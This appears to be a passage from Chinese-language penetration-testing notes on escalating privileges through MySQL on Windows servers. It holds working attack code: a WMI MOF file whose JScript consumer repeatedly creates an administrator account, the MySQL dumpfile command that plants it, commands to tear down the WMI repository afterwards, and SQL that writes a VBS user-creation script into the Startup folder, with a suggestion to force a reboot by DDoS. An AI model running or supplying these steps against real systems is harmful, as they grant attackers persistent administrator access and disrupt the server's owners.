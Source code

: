     instance of __EventFilter as
    {
        EventNamespace = "Root\Cimv2";
        Name  = "filtP2";
        Query = "Select * From __InstanceModificationEvent "
                "Where TargetInstance Isa \"Win32_LocalTime\" "
                "And TargetInstance.Second = 5";
        QueryLanguage = "WQL";
    };

    instance of ActiveScriptEventConsumer as
    {
        Name = "consPCSV2";
        ScriptingEngine = "JScript";
        ScriptText =
        "var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user sqladmin admin /add&&net.exe localgroup administrators sqladmin /add\")";
    };

    instance of __FilterToConsumerBinding
    {
        Consumer   = ;
        Filter = ;
    };
    ```
    1. 保存为 1.mof,然后 mysql 执行：`select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';`
    2. mof 被执行的话，会帮我们添加一个叫 sqladmin 的用户。

    **关于 Mof 提权的弊端**

    我们提权成功后，就算被删号，mof 也会在五秒内将原账号重建，那么这给我们退出测试造成了很大的困扰，所以谨慎使用。那么我们如何删掉我们的入侵账号呢？
    ```
    net stop winmgmt
    del c:/windows/system32/wbem/repository
    net start winmgmt
    ```

- **启动项提权**

    在前两种方法都失败时，那可以试一下这个苟延残喘的启动项提权..因为要求达到的条件和 mof 几乎一样，并且要重启服务，所以不是十分推荐。原理还是使用 mysql 写文件，写入一段 VBS 代码到开机自启动中，服务器重启达到创建用户并提权，可以使用 DDOS 迫使服务器重启。

    提权条件
    1. file_priv 不为 null
    2. 已知 root 密码

    ```sql
    create table a (cmd text);
    insert into a values ("set wshshell=createobject (""wscript.shell"") " );
    insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
    insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
    select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
    ```

---